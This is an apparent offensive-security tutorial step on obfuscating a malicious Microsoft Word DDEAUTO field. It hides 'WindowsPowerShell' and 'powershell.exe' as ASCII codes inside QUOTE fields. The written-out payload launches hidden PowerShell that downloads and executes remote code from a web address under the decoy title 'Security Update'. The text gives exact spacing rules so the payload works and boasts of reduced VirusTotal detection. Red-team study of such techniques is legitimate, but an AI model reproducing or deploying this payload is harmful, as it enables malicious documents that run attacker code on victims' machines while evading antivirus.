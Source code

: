 We're going to use a method called QUOTE to insert characters into fields using their ASCII decimal codes.

For each string of text highlighted above, perform the following steps:

1. Highligh the string
2. Copy it to your clipboard
3. Convert it to ASCII decimal codes. ([Here](http://www.unit-conversion.info/texttools/ascii/) is online tool you can use)

	![ascii characters](/img/dde-word/07-obfuscated-03.png)
4. Delete the string
5. Insert a new field in its place using the method from earlier
6. Type QUOTE in the field and paste in the ASCII code string

It should look like this when it's done:

![ascii payload](/img/dde-word/07-obfuscated-04.png)

{ `DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\`{`QUOTE 087 105 110 100 111 119 115 080 111 119 101 114 083 104 101 108 108`}`\\v1.0\\`{`QUOTE 112 111 119 101 114 115 104 101 108 108 046 101 120 101`}` -w 1 -nop `{`QUOTE 105 101 120`}`(new-object system.net.webclient).downloadstring('http://example.com/index')" "Security Update"`}

Make sure there are no extra spaces *before* the opening curly bracket or *after* the closing curly bracket of each field. Spaces on the *inside* are okay, but spaces on the outside are not; they will break the string and your payload will not work.

| Right: | &nbsp;&nbsp;`...101 108 108 }\\v1.0\\{ QUOTE 112 111...` |
| Wrong: | &nbsp;&nbsp;`...101 108 108} \\v1.0\\ {QUOTE 112 111...` |

<br>
This obfuscation brings the detection rate on VirusTotal down quite a bit (13/60).
